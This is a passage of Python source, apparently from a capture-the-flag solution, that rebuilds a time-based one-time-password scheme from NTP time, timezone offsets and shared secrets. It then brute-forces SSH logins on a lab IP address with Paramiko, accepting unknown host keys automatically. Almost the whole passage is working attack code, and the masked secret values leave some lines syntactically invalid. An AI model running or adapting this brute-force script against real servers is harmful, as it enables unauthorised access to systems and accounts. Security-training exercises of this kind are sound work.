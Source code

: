 ```python
            client = ntplib.NTPClient()
            client.request(self.targetIPAdress) #IP of linux-bay server
            print('[+] Synced to the time server')
        except:
            print('[-] Could not sync with time server')

    def TimeSet(self, country, hours, mins, seconds):
        now = datetime.now() + timedelta(hours=hours, minutes=mins)
        #time units: day, hour, minutes
        CurrentTime = int(now.strftime("%d%H%M"))

        return CurrentTime
       
    def getOTP(self):
        CA = self.TimeSet('Ukraine', 4, 43, 0)
        CB = self.TimeSet('Germany', 13, 55, 0)
        CC = self.TimeSet('England', 9, 19, 0)
        CD = self.TimeSet('Nigeria', 1, 6, 0)
        CE = self.TimeSet('Denmark', -5, 18, 0)

        listTimeSet = [CA, CB, CC, CD, CE]
        randomTimeSet = random.sample(listTimeSet, 3)

        # CTT = CA * CB * CC
        CTT = randomTimeSet[0] * randomTimeSet[1] * randomTimeSet[2]

        # UC = CTT XOR SST
        UC = CTT ^ random.choice(self.listSecret)

        # hash OTP
        HC = (sha256(repr(UC).encode('utf-8')).hexdigest())

        # HC Truncate
        T = HC[22:44]
        
        SSHOTP = T
        return SSHOTP

    def bruteForceSSH(self, SSHUsername, OTP):
        print(f'[*] Trying SSH OTP: {OTP}', end='\r')

        sshClient = SSHClient()
        sshClient.set_missing_host_key_policy(AutoAddPolicy())
        try:
            sshClient.connect(self.targetIPAdress, username=SSHUsername, password=OTP, banner_timeout=300)
            return True
        except AuthenticationException:
            # print(f'[-] Wrong OTP: {OTP}')
            pass
        except ssh_exception.SSHException:
            print('[*] Attempting to connect - Rate limiting on server')

def main():
    #shared secret token for OTP calculation
    sharedSecret1 = 1289xxxxxxxx488
    sharedSecret2 = 59xxxxxxxx453
    sharedSecret3 = 79xxxxxxx579
    # Change to the machine's IP
    targetIPAdress = '10.10.96.40'
    
    timeSimulatorClient = TimeSimulatorClient(sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress)
```